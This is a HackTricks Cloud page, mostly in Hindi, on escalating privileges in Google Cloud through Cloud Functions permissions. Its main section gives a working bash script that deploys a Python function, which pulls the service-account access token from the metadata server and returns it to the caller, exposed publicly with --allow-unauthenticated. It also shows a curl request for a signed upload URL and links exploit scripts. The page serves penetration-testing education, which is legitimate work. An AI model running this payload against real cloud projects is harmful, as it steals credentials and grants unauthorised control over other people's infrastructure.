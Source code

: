 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions के बारे में अधिक जानकारी:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

इन विशेषाधिकारों के साथ एक हमलावर **मनमाने (दुष्ट) कोड के साथ एक नया Cloud Function बना सकता है और इसे एक Service Account सौंप सकता है**। फिर, विशेषाधिकारों को बढ़ाने के लिए मेटाडेटा से Service Account टोकन लीक करें।\
फंक्शन को ट्रिगर करने के लिए कुछ विशेषाधिकारों की आवश्यकता हो सकती है।

इस विधि के लिए शोषण स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) और [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) मिल सकती हैं और प्रीबिल्ट .zip फ़ाइल [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) मिल सकती है।

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

इन विशेषाधिकारों के साथ एक हमलावर **एक Function के कोड को संशोधित कर सकता है और यहां तक कि संलग्न सेवा खाते को भी संशोधित कर सकता है** जिसका लक्ष्य टोकन को एक्सफिल्ट्रेट करना है।

{% hint style="danger" %}
Cloud functions को तैनात करने के लिए आपको डिफ़ॉल्ट कंप्यूट सेवा खाते पर या उस सेवा खाते पर actAs अनुमतियों की भी आवश्यकता होगी जिसका उपयोग छवि बनाने के लिए किया जाता है।
{% endhint %}

कुछ अतिरिक्त विशेषाधिकार जैसे कि संस्करण 1 cloudfunctions के लिए `.call` अनुमति या फंक्शन को ट्रिगर करने के लिए `role/run.invoker` भूमिका की आवश्यकता हो सकती है।
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# If you don't have permissions to change the IAM policy, the "--allow-unauthenticated" will just fail and do nothing

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

इस अनुमति के साथ आप एक **साइन किया हुआ URL प्राप्त कर सकते हैं जिससे आप एक फ़ाइल को एक फ़ंक्शन बकेट में अपलोड कर सकें (लेकिन फ़ंक्शन का कोड नहीं बदलेगा, आपको इसे अभी भी अपडेट करना होगा)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

हम attackers के दृष्टिकोण से केवल इस अनुमति की उपयोगिता के बारे में निश्चित नहीं हैं, लेकिन जानना अच्छा है।

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

अपने लिए किसी भी पिछले **`.update`** या **`.create`** विशेषाधिकार को बढ़ाने के लिए दें।

### `cloudfunctions.functions.update`

केवल **`cloudfunctions`** अनुमतियों के साथ, बिना **`iam.serviceAccounts.actAs`** के आप **फंक्शन को अपडेट नहीं कर पाएंगे, इसलिए यह एक मान्य प्रिवेस्क नहीं है।**

### बकेट लिखने की अनुमतियाँ

आप सोच सकते हैं कि **बकेट पर लिखने की अनुमतियों** वाला एक attacker **कोड को संशोधित करने में सक्षम होगा** `function_code.zip` को ओवरराइट करके और फिर फंक्शन को **मनमाने** कोड को निष्पादित करने के लिए बना देगा।

{% hint style="success" %}
**हालांकि, यह सच नहीं है, बकेट के अंदर कोड को ओवरराइट करने से निष्पादित हो रहे कोड में कोई परिवर्तन नहीं होगा।**
{% endhint %}

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।**

</details>
{% endhint %}
